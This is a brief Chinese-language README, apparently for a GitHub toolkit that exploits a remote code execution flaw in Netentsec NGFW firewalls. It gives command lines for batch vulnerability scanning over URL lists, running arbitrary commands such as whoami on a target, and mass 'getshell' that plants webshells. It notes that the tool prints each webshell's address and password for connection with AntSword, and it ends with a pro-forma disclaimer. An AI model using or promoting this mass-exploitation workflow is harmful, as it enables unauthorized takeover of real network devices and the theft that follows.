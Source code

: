 # NSNGFW网康下一代防火墙RCE  漏洞批量检测&利用&批量getshell
 
poc.py -t 线程数 -u urls.txt

exp.py -c whoami -u http://x.x.x.x

批量getshell.py -t 线程数 -u urls.txt
成功后会输出一句话地址和密码，蚁剑连接即可

本工具仅用于安全测试，禁止未授权非法攻击站点，否则后果自负。
